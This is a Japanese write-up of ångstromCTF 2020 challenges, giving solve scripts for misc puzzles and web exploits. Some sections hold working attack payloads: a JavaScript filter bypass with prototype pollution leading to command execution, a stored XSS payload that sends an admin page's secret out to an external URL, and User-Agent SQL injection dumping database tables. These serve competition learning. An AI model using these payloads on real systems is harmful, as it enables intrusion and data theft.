



3 月 14 日から 3 月 19 日にかけて開催された [ångstromCTF 2020](https://2020.angstromctf.com/) に、チーム zer0pts として参加しました。最終的にチームで 4045 点を獲得し、順位は 5 点以上得点した 1596 チーム中 25 位でした。うち、私は 16 問を解いて 1730 点を入れました。

以下、私が解いた問題の write-up です。

## [Misc 70] clam clam clam (491 solves)
> clam clam clam clam clam clam clam clam clam nc (接続情報) clam clam clam clam clam clam
> 
> ヒント: U+000D
> 
> Author: aplet123

とりあえず問題サーバに接続してみましょう。

```
$ nc (省略)
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
malc{malc_malc_malc_malc_malc}
clam{clam_clam_clam_clam_clam}
︙
```

延々謎の文字列が出力されています。ヒントに従って `U+000D` が出力されている箇所を探しましょう。

```
$ nc (省略) | xxd | grep -3 0d
000000a0: 6d61 6c63 5f6d 616c 635f 6d61 6c63 5f6d  malc_malc_malc_m
000000b0: 616c 635f 6d61 6c63 7d0a 636c 616d 7b63  alc_malc}.clam{c
000000c0: 6c61 6d5f 636c 616d 5f63 6c61 6d5f 636c  lam_clam_clam_cl
000000d0: 616d 5f63 6c61 6d7d 0a6d 616c 637b 6d61  am_clam}.malc{ma
000000e0: 6c63 5f6d 616c 635f 6d61 6c63 5f6d 616c  lc_malc_malc_mal
000000f0: 635f 6d61 6c63 7d0a 636c 616d 7b63 6c61  c_malc}.clam{cla
00000100: 6d5f 636c 616d 5f63 6c61 6d5f 636c 616d  m_clam_clam_clam
--
00000940: 616d 5f63 6c61 6d5f 636c 616d 5f63 6c61  am_clam_clam_cla
00000950: 6d7d 0a74 7970 6520 2263 6c61 6d63 6c61  m}.type "clamcla
00000960: 6d22 2066 6f72 2073 616c 7661 7469 6f6e  m" for salvation
00000970: 0d6d 616c 637b 6d61 6c63 5f6d 616c 635f  .malc{malc_malc_
00000980: 6d61 6c63 5f6d 616c 635f 6d61 6c63 7d0a  malc_malc_malc}.
00000990: 636c 616d 7b63 6c61 6d5f 636c 616d 5f63  clam{clam_clam_c
000009a0: 6c61 6d5f 636c 616d 5f63 6c61 6d7d 0a6d  lam_clam_clam}.m
--
︙
```

`type "clamclam" for salvation` ということなので `clamclam` と入力してみましょう。

```
$ echo clamclam | nc (省略)
actf{cl4m_is_my_f4v0rite_ctfer_in_th3_w0rld}
```

フラグが得られました。

```
actf{cl4m_is_my_f4v0rite_ctfer_in_th3_w0rld}
```

## [Misc 90] PSK (266 solves)
> My friend sent my yet another mysterious recording...
> 
> He told me he was inspired by PicoCTF 2019 and made his own transmissions. I've looked at it, and it seems to be really compact and efficient.
> 
> Only 31 bps!!
> 
> See if you can decode what he sent to me. It's in actf{} format
> 
> Author: JoshDaBosh
> 
> 添付ファイル: transmission.wav

ピロピロいってる WAV ファイルが与えられました。`PSK 31 bps` でググると [PSK31](https://ja.wikipedia.org/wiki/PSK31) というそれっぽいものが見つかりました。この Wikipedia の記事で紹介されている `www.psk31.com` はコンテンツが消えてしまっています。が、Wayback Machine で遡ると[コンテンツを見ることができました](http://web.archive.org/web/20070203080751/http://www.psk31.com/)。

[適当な PDF](http://web.archive.org/web/20070206034640/http://www.psk31.com/G3PLXarticle.pdf) にある Varicode と ASCII コードの対応表等を参考にデコードしましょう。

```python
import re
from pydub import AudioSegment
from psk31 import psk31 # https://github.com/zignig/gizmotron/blob/070050a0f814c0cd03cb24dafbffa89a3efbbc18/cores/psk31.py

interval = 32 # 32ms
sound = AudioSegment.from_wav('transmission.wav')

res = ''
i = 0
try:
  while True:
    if sound[16+interval*i].get_array_of_samples()[0] == 0:
      res += '0'
    else:
      res += '1'
    i += 1
except:
  pass

res = res[32:192]
flag = ''
try:
  while True:
    i = res.find('00')
    j = psk31.varicodes.index(res[:i])
    flag += chr(j)
    res = res[i+2:]
except:
  pass

print(flag)
```

```
$ python3 solve.py
actf{hamhamhamhamham}
```

フラグが得られました。

```
actf{hamhamhamhamham}
```

## [Misc 100] Inputter (369 solves)
> Clam really likes challenging himself. When he learned about all these weird unprintable ASCII characters he just HAD to put it in a challenge. Can you satisfy his knack for strange and hard-to-input characters? Source.
> 
> Find it on the shell server at /problems/2020/inputter/.
> 
> Author: aplet123
> 
> 添付ファイル: inputter (バイナリ), inputter.c (ソースコード)

`inputter.c` は以下のような内容でした。

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

#define FLAGSIZE 128

void print_flag() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    FILE *file = fopen("flag.txt", "r");
    char flag[FLAGSIZE];
    if (file == NULL) {
        printf("Cannot read flag file.\n");
        exit(1);
    }
    fgets(flag, FLAGSIZE, file);
    printf("%s", flag);
}

int main(int argc, char* argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    if (argc != 2) {
        puts("Your argument count isn't right.");
        return 1;
    }
    if (strcmp(argv[1], " \n'\"\x07")) {
        puts("Your argument isn't right.");
        return 1;
    }
    char buf[128];
    fgets(buf, 128, stdin);
    if (strcmp(buf, "\x00\x01\x02\x03\n")) {
        puts("Your input isn't right.");
        return 1;
    }
    puts("You seem to know what you're doing.");
    print_flag();
}
```

`argv[1]` に `" \n'\"\x07"` を、標準入力から `"\x00\x01\x02\x03\n"` を与えるとフラグが得られるようです。Python で pwntools を使ってやってみましょう。

```
team5580@actf:/problems/2020/inputter$ python
Python 2.7.12 (default, Oct  8 2019, 14:14:10)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p = process(['./inputter', " \n'\"\x07"])
[x] Starting local process './inputter'
[+] Starting local process './inputter': pid 14163
>>> p.send("\x00\x01\x02\x03\n")
>>> p.interactive()
[*] Switching to interactive mode
[*] Process './inputter' stopped with exit code 0 (pid 14163)
You seem to know what you're doing.
actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}
[*] Got EOF while reading in interactive
```

フラグが得られました。

```
actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}
```

## [Misc 140] msd (198 solves)
> You thought Angstrom would have a stereotypical LSB challenge... You were wrong! To spice it up, we're now using the Most Significant Digit. Can you still power through it?
> 
> Here's the encoded image, and here's the original image, for the... well, you'll see.
> 
> Important: Redownload the image if you have one from before 11:30 AM 3/14/20. Important: Don't use Python 3.8, use an older version of Python 3!
> 
> 添付ファイル: public.py (画像にデータを埋め込むスクリプト), breathe.jpg (元画像), output.png (public.py で breathe.jpg にデータを埋め込んだ画像)
> 
> Author: JoshDaBosh

`public.py` は以下のような内容でした。

```python
from PIL import Image

im = Image.open('breathe.jpg')
im2 = Image.open("breathe.jpg")

width, height = im.size

flag = "REDACT"
flag = ''.join([str(ord(i)) for i in flag])


def encode(i, d):
    i = list(str(i))
    i[0] = d

    return int(''.join(i))
    

c = 0

for j in range(height):
    for i in range(width):
        data = []
        for a in im.getpixel((i,j)):
            data.append(encode(a, flag[c % len(flag)]))

            c+=1

        im.putpixel((i,j), tuple(data))
        
im.save("output.png")
pixels = im.load()
```

Most Significant **Bit** ではなく Most Significant **Digit** にデータを埋め込んでいるようです。まず `flag` の各文字を ASCII コードにし、それらを結合して `656667` のような形式に変換しています。それから画像の各ピクセルについて、各色の最上位のケタに変換後の `flag` の各ケタを埋め込んでいます。埋め込まれたデータを探すスクリプトを書きましょう。

```python
import string
import sys
from PIL import Image

encoded = Image.open('output.png')
original = Image.open('breathe.jpg')
w, h = encoded.size

digits = ''
for y in range(h):
  for x in range(w):
    for a, b in zip(encoded.getpixel((x, y)), original.getpixel((x, y))):
      digits += str(a)[0] if len(str(a)) == len(str(b)) else '0'

target = sys.argv[1]
i = digits.find(target)
while i != -1:
  flag = ''
  while len(flag) < 40:
    for l in (2, 3):
      c = int(digits[i:i+l])
      if chr(c) in string.digits + string.ascii_letters + '_-{}':
        break
    flag += chr(c)
    i += l
  print(flag)

  i = digits.find(target, i + 1)
```

フラグフォーマットは `actf{…}` ですから、`actf` から始まる部分を探しましょう。

```
$ python solve.py 9799116102
actf{inhale_exhale_ezpz-12309bffgyhÞÔpÞo
actf{inhale_exhale_ezpz-12309biggyhaby}L
actf{infÝ3ÉÒÒzezpz-12309ęÓÞyzÝo
︙
```

フラグが得られました。

```
actf{inhale_exhale_ezpz-12309biggyhaby}
```

## [Misc 180] ws3 (261 solves)
> What the... 
> 
> 添付ファイル: record.pcapng
> 
> Author: JoshDaBosh

`record.pcapng` を Wireshark で開くと、HTTP で `/josh/secret.git/info/refs?service=git-upload-pack` を GET したり、`/josh/secret.git/git-upload-pack` にデータを POST している様子が見られました。

POST されているデータは Git のパックファイルのようでした。Wireshark で片っ端からエクスポートして `\x78\x9c` から始まるバイト列を展開していくと、`tcp.stream eq 4` のフィルターを適用した際に得られるパックファイルから JPEG ファイルが展開できました。

```python
import zlib

with open('4.bin', 'rb') as f:
  s = f.read()

while True:
  s = s[s.index(b'\x78\x9c'):]
  data = zlib.decompress(s)
  if data.startswith(b'\xff\xd8'):
    with open('a.jpg', 'wb') as f:
      f.write(data)
  s = s[2:]
```

この JPEG ファイルにフラグが書かれていました。

```
actf{git_good_git_wireshark-123323}
```

## [Misc 220] CaaSio (38 solves)
> Clam's creative calculator causes coders' chronic craziness. Find his calculator-as-a-service over tcp at `nc (接続情報)` and the flag at `/ctf/flag.txt`. Remember, the "b" in regex stands for "bugless." Source.
> 
> Author: aplet123

以下のようなソースコードも添付されていました。

```javascript
const readline = require("readline");
const util = require("util");
const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
console.log("Welcome to my Calculator-as-a-Service (CaaS)!");
console.log("Our advanced js-based calculator allows for advanced boolean-based operations!");
console.log("Try calculating '(2 < 3) ? 5 : 6' (without the quotes of course)!");
console.log("However, if we don't trust you then we'll have to filter your input a bit.");
function question(q) {
    return new Promise((res, rej) => rl.question(q, res));
}
// don't want you modifying the Math object
Object.freeze(global);
Object.freeze(Math);

const user = {};
async function main() {
    const name = await question("What's your name? ");
    if (name.length > 10) {
        console.log("Your name is too long, I can't remember that!");
        return;
    }
    user.name = name;
    if (user.name == "such_a_trusted_user_wow") {
        user.trusted = true;
    }
    user.queries = 0;
    console.log(`Hello ${name}!`);
    while (user.queries < 3) {
        user.queries ++;
        let prompt = await question("> ");
        if (prompt.length > 200) {
            console.log("That's way too long for me!");
            continue;
        }
        if (!user.trusted) {
            prompt = (prompt.match(reg) || []).join``;
        }
        try {
            console.log(eval(prompt));
        } catch (err) {
            console.log("There has been an error! Oh noes!");
        }
    }
    console.log("I'm afraid you've run out of queries.");
    console.log("Goodbye!");
}
setTimeout(function() {
    console.log("Time's up!");
    console.log("Goodbye!");
    process.exit(0);
}, 60000);
main();
```

200 文字未満の任意のコードを、`reg` という正規表現にマッチする部分だけを抽出した上で 3 回まで実行できるようです。このままでは読みにくいので、`regex visualize` でググって出てきた [Regexper](https://regexper.com/#%2F%28%3F%3AMath%28%3F%3A%28%3F%3A%5C.%5Cw%2B%29%7C%5Cb%29%29%7C%5B%28%29%2B%5C-*%2F%26%7C%5E%25%3C%3E%3D%2C%3F%3A%5D%7C%28%3F%3A%5Cd%2B%5C.%3F%5Cd*%28%3F%3Ae%5Cd%2B%29%3F%29%2Fg) に投げてみましょう。



これでは変数すら満足に使えません。`Math.a=123` や `Math=123` のように `Math` を利用しようにも、`Object.freeze(global);` と `Object.freeze(Math);` によってプロパティを操作することができません。`eval` 相当のことをするために `Function` を手に入れようにも、`Math.contructor.constructor` は `Math.constructor` に切り詰められてしまいます。

ですが、関数の仮引数名に `Math` を使う場合には制限はありません。`(` `)` `=` `>` のいずれも `reg` によって許可されているので[アロー関数](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Functions/Arrow_functions)が使え、`(Math=>Math.constructor)(Math.constructor)` で `Math.constructor.constructor` 相当のことができます。

同じように、`Math+0` で文字列を作り、`(Math+0).constructor` で `String` を作り、`(Math+0).constructor.fromCharCode` で `String.fromCharCode` を作りましょう。これは `(Math=>Math.fromCharCode)((Math=>Math.constructor)(Math+0))` で作れます。

これらを合わせて、`reg` の制限をバイパスして任意のコードを実行できるコードを生成する関数を作ります。

```javascript
function f(code) {
  const arr = code.split('').map(c => c.charCodeAt(0));
  return `(Math=>Math.constructor)(Math.constructor)((Math=>Math.fromCharCode)((Math=>Math.constructor)(Math+0))(${arr.join(',')}))()`;
}
```

ただ、これでは 200 文字未満という制限のせいでかなり短いコードしか実行できません。なんとかできないでしょうか。

コードを読むと、どうやら `user.trusted` を `true` にすれば `reg` によるチェックもなくせるようです。`f('user.trusted=1')` でいけるかと思いきや、残念ながらスコープの関係で `user` にアクセスできないようです。

よく見ると、`user.trusted` は最初のユーザ名の入力時に `user.name == "such_a_trusted_user_wow"` である場合にのみ `true` が代入されており、それ以外の場合には `undefined` になっています。

こういったシチュエーションでは[プロトタイプ汚染攻撃](https://jovi0608.hatenablog.com/entry/2018/10/19/083725)が有効です。`Object.prototype.trusted = 1` を実行すれば、`user.trusted` が `undefined` だった場合にはプロトタイプチェーンをたどって `Object.prototype.trusted` にアクセスするために `!user.trusted` が真になるはずです。

`f('({}).__proto__.trusted=1')` が生成するコードを実行し、`console.log(123)` を入力すると `123` と表示されました。ちゃんと `!user.trusted` が真になっているようです。

問題文によると `/ctf/flag.txt` にフラグがあるようなので、読んでみましょう。

```
$ nc (省略)
Welcome to my Calculator-as-a-Service (CaaS)!
Our advanced js-based calculator allows for advanced boolean-based operations!
Try calculating '(2 < 3) ? 5 : 6' (without the quotes of course)!
However, if we don't trust you then we'll have to filter your input a bit.
What's your name? neko
Hello neko!
> (Math=>Math.constructor)(Math.constructor)((Math=>Math.fromCharCode)((Math=>Math.constructor)(Math+0))(40,123,125,41,46,95,95,112,114,111,116,111,95,95,46,116,114,117,115,116,101,100,61,49))()
undefined
> console.log(require('child_process').execSync('cat /ctf/flag.txt').toString())
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}

undefined
> 
```

フラグが得られました。

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```

## [Misc 240] Noisy (121 solves)
> My furrier friend tried to send me a morse code message about some new furs, but he was using a noisy connection. I think he repeated it a few times but I still can't tell what he said, could you figure out what he was trying to tell me? Here's the code he used.
> 
> (the flag is not in the actf{} format, it's all lowercase, 1 repetition only)
> 
> 添付ファイル: Noisey.py, 4ea.txt (Noisey.py の出力)
> 
> Author: fireholder

`Noisey.py` は以下のような内容でした。

```python
import numpy as np
from random import gauss
morse = REDACTED
repeats = REDACTED
pointed = []
for c in morse:
    if c == ".":
        pointed.extend([1 for x in range(10)])
    if c == "-":
        pointed.extend([1 for x in range(20)])
    if c == " ":
        pointed.extend([0 for x in range(20)])
    pointed.extend([0 for x in range(10)])

with open("points.txt", "w") as f:
    for _ in range(repeats):
        signal = pointed
        output = []
        for x, bit in enumerate(signal):
            output.append(bit + gauss(0,2))

        signal = list(np.array(output) - .5)
        f.write('\n'.join([str(x) for x in signal])+"\n")
f.close()
```

モールス信号を `0` と `1` に変えた上で `random.gauss(0, 2)` でノイズを加えているようです。信号は何度か繰り返されているようなので、元が同じ信号であろう部分をくっつけて、それらの平均を見てみましょう。

信号が繰り返されている回数については与えられていないので片っ端から試していきましょう。

```python
# coding: utf-8
import io
import functools
import sys
from morse import table # https://svn.python.org/projects/python/trunk/Demo/scripts/morse.py

# group([0, 1, 2, 3, 4, 5, 6, 7, 8, 9], 2)
# => [[0, 1], [2, 3], [4, 5], [6, 7], [8, 9]]
def group(a, n):
  return [a[i:i+n] for i in range(0, len(a), n)]

# partition([0, 1, 2, 3, 4, 5, 6, 7, 8, 9], 2)
# => [[0, 1, 2, 3, 4], [5, 6, 7, 8, 9]]
def partition(a, n):
  return group(a, len(a) // n)

with open('points.txt') as f:
  points = [float(x) for x in f.readlines()]

# partition
REPEATS, N = int(sys.argv[1]), 10
s = partition(group(points, N), REPEATS)
s = [functools.reduce(lambda x, y: x + y, t, []) for t in zip(*s)]
s = [sum(x) / len(x) for x in s]
s = ''.join('1' if x > 0 else '0' for x in s)

# decode (binary to morse codes)
READ_CODE = 0
WAIT_NEXT_CODE = 1

codes = ''
f = io.StringIO(s)
state = READ_CODE
tmp = ''
while True:
  if state == READ_CODE:
    c = f.read(1)
    if c == '':
      break
    elif c == '0':
      codes += '-' if len(tmp) == 2 else '.'
      tmp = ''
      state = WAIT_NEXT_CODE
    elif c == '1':
      tmp += c
  elif state == WAIT_NEXT_CODE:
    c = f.read(1)
    if c == '':
      break
    elif c == '0':
      f.read(2)
      codes += ' '
    elif c == '1':
      tmp += c
    state = READ_CODE
  
# decode (morse codes to chars)
print(codes)
print(''.join(table.get(code, '?') for code in codes.split(' ')))
```

```
$ python solve.py 10
.- -. --- .. ... -.-- -. --- .. ... ..- -. --- .. ... -.-- -. --- .. ... ..- -. --- .. ... -.-- -. --- .. ... .
anoisynoisunoisynoisunoisynoise
$ python solve.py 15
.- -. --- .. ... -.-- -. --- .. ... ..- -. --- .. ... -.-- -. --- .. ... .
anoisynoisunoisynoise
$ python solve.py 30
.- -. --- .. ... -.-- -. --- .. ... .
anoisynoise
```

フラグが得られました。

```
anoisynoise
```

## [Web 20] The Magic Word (1301 solves)
> Ask and you shall receive...that is as long as you use the magic word.
> 
> Author: aplet123

与えられた URL にアクセスすると次のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>What's the magic word?</title>
        <link
            href="https://fonts.googleapis.com/css2?family=Inconsolata:wght@400;700&display=swap"
            rel="stylesheet"
        />
        <style>
            body {
                margin: 0;
            }
            p {
                font-family: "Inconsolata", monospace;
                text-align: center;
                font-size: 64px;
                vertical-align: middle;
                user-select: none;
                margin: 0;
            }
            .flexmagic {
                display: flex;
                align-items: center;
                justify-content: center;
                height: 100%;
                position: absolute;
                margin: 0;
                width: 100%;
                flex-direction: column;
            }
            .hidden {
                display: none;
            }
        </style>
    </head>
    <body>
        <div>
            <p class="hidden">this ain't it chief</p>
        </div>
        <div>
            <p class="hidden">this also ain't it chief</p>
        </div>
        <div>
            <div class="flexmagic">
                <p id="magic">give flag</p>
            </div>
        </div>
        <div>
            <p class="hidden">you passed it chief</p>
        </div>
        <script>
            var msg = document.getElementById("magic");
            setInterval(function() {
                if (magic.innerText == "please give flag") {
                    fetch("/flag?msg=" + encodeURIComponent(msg.innerText))
                        .then(res => res.text())
                        .then(txt => magic.innerText = txt.split``.map(v => String.fromCharCode(v.charCodeAt(0) ^ 0xf)).join``);
                }
            }, 1000);
        </script>
    </body>
</html>
```

`magic.innerText == "please give flag"` と、`<p id="magic">give flag</p>` のコンテンツを `please give flag` に変えると何かが起こりそうです。Google Chrome の DevTools を開き、この要素を選択してやってみると、自動的にコンテンツがフラグに変わりました。

```
actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd}
```

## [Web 50] Xmas Still Stands (457 solves)
> You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the Anti Xmas Warriors to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?
> 
> Author: aplet123

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!doctype html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    
        <link rel="stylesheet" href="/bootstrap.css">
        <link rel="stylesheet" href="/style.css">
    
        <title>Anti-Xmas Warriors</title>
    
        <script defer src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
        <script defer src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
        <script defer src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
    </head>
    <body>
        <nav class="navbar navbar-expand-lg navbar-dark bg-primary">
            <a class="navbar-brand" href="/">Anti-Xmas Warriors</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>
            
            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav mr-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="/">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/post">Post</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/report">Report</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/admin">Admin</a>
                    </li>
                </ul>
            </div>
        </nav>        <div class="container mx-auto text-center partial-width pt-2">
    <h1 class="display-4">Down with Xmas!</h1>
    <p>Despite our best efforts, Xmas is Still Standing. But don't worry, we've got a great plan that will surely cripple Xmas once and for all! Before we enact that plan, feel free to chill here on our super secure forum. Remember, being a grinch is a good thing! Sadly, no one will give us funding to purchase a better server so we have to delete posts over 15 minutes old in order to save space.</p>
</div>
    </body>
</html>
```

`/post` `/report` `/admin` の 3 つのリンクがあるようです。`/post` は記事を投稿できるページで、適当な内容を投稿すると `/post/708` のようにパーマリンクが発行されて、これにアクセスすると投稿した内容を閲覧することができます。`/admin` は特に重要そうなコンテンツが見つかりません。サイトの管理者しか閲覧できないページでしょう。`/report` は記事の ID (`/post/708` の `708` 部分) を投稿できるページで、投稿すると管理者がその記事をチェックしに行くようです。

`/post` に XSS がないか `<s>test</s>` という内容で投稿してみると、斜線の入った `test` が表示されました。やった!

これを利用して管理者に `/admin` の内容を取得させて外部に投げさせてみましょう。`resp.text()).then(resp=>{(new Image).src='(省略)?a='+encodeURIComponent(resp.match(/actf\{.+?\}/g)[0])})">` を投稿し、この記事の ID を `/report` に投げると管理者が指定した URL にフラグともにアクセスしてきました。

```
actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}
```

## [Web 50] Consolation (580 solves)
> I've been feeling down lately... Cheer me up!
> 
> Author: JoshDaBosh

与えられた URL にアクセスすると、次のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
<head>
	<title>consolation</title>
</head>

<body style="padding: 20px">

$<span id="monet">0</span>

<br /><br /><br />

<button onclick="nofret()" style="height:150px; width:150px;">pay me some money</button>

<script src="iftenmillionfireflies.js"></script>

</body>
</html>
```

`pay me some money` と書かれたボタンを押すと、`<span id="monet">0</span>` のコンテンツが 25 ドルずつ増えていきます。`nofret` がどういう実装になっているか `iftenmillionfireflies.js` を読んでみようとしましたが…`var _0x2f5b=['dTMDXS41GsKFNzogXGdvNTbCshrCpkdKw4rDsmPDgMKmNMKICA==',…` のような感じで [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) によって難読化されていてとても読むことはできません。

Google Chrome で DevTools を開いて `nofret` を呼び出してみようとしたところ、Console タブで `Console was cleared` という、`console.clear` を呼び出したときに出力されるメッセージが表示されていることに気づきました。一体何を出力していたのでしょう。

`console.clear = () => {}` を実行して `console.clear` を呼び出しても何も起こらないようにした上で `pay me some money` と書かれたボタンを押すと、Console タブにフラグが表示されました。

```
actf{you_would_n0t_beli3ve_your_eyes}
```

## [Web 70] Git Good (533 solves)
> Did you know that angstrom has a git repo for all the challenges? I noticed that clam committed a very work in progress challenge so I thought it was worth sharing.
> 
> Author: aplet123

与えられた URL にアクセスすると、`Hello, world!` とだけ表示されました。

問題名的に `.git` 関連でしょう。`/.git/config` にアクセスすると以下のような内容が返ってきました。

```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```

当たりのようです。`git clone https://(省略)/.git/` で clone することができました。ログを見てみましょう。

```
$ git log -p
commit e975d678f209da09fff763cd297a6ed8dd77bb35 (HEAD -> master, origin/master, origin/HEAD)
Author: aplet123 <noneof@your.business>
Date:   Sat Mar 7 16:27:44 2020 +0000

    Initial commit

diff --git a/thisistheflag.txt b/thisistheflag.txt
index 0f52598..247c9d4 100644
--- a/thisistheflag.txt
+++ b/thisistheflag.txt
@@ -1,3 +1 @@
-actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
-
-btw this isn't the actual git server
+There used to be a flag here...
```

フラグが得られました。

```
actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
```

## [Web 110] Secret Agents (517 solves)
> Can you enter the secret agent portal? I've heard someone has a flag :eyes:
> 
> Our insider leaked the source, but was "terminated" shortly thereafter...
> 
> Author: JoshDaBosh

以下のようなソースコードが添付されていました。

```python
from flask import Flask, render_template, request
#from flask_limiter import Limiter
#from flask_limiter.util import get_remote_address

from .secret import host, user, passwd, dbname

import mysql.connector


dbconfig = {
	"host":host,
	"user":user,
	"passwd":passwd,
	"database":dbname
}

app = Flask(__name__)
"""
limiter = Limiter(
	app,
	key_func=get_remote_address,
	default_limits=["1 per second"],
)"""


#@limiter.exempt
@app.route("/")
def index():
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(
					**dbconfig
					)

	cursor = conn.cursor()

	#cursor.execute("SET GLOBAL connect_timeout=1")
	#cursor.execute("SET GLOVAL wait_timeout=1")	
	#cursor.execute("SET GLOBAL interactive_timeout=1")

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			break

	cursor.close()
	conn.close()

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

`cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True)` で SQLi ができそうです。`u` は `User-Agent` 由来ですから、いくらでも操作できます。やってみましょう。

```
$ curl https://(省略)/login -A "' union select version(),2;#"
<!DOCTYPE html>

<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, 10.4.12-MariaDB-1:10.4.12+maria~bionic</p>
</body>
</html>
```

できました。MariaDB を使っているようなので `information_schema.tables` からテーブルの情報を取得してみましょう。

```
$ curl https://(省略)/login -A "' union select group_concat(table_name), 2 from information_schema.tables where table_schema=database();#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, Agents</p>
</body>
</html>
```

`Agents` というテーブルがあるようです。`information_schema.columns` からカラムの情報を取得しましょう。

```
$ curl https://(省略)/login -A "' union select group_concat(column_name), 2 from information_schema.columns where table_name='Agents';#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, Name,UA</p>
</body>
</html>
```

`Name` と `UA` というカラムが存在するようです。内容を取得しましょう。

```
$ curl https://(省略)/login -A "' union select group_concat(Name), 2 from Agents limit 100;#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, GRU,vector but elon musk&#39;s brother,actf{nyoom_1_4m_sp33d},wile e. coyote,PLANKTON,mort,shaggy, destroyer of worlds,matt, lord of fitness,admin</p>
</body>
</html>
```

フラグが得られました。

```
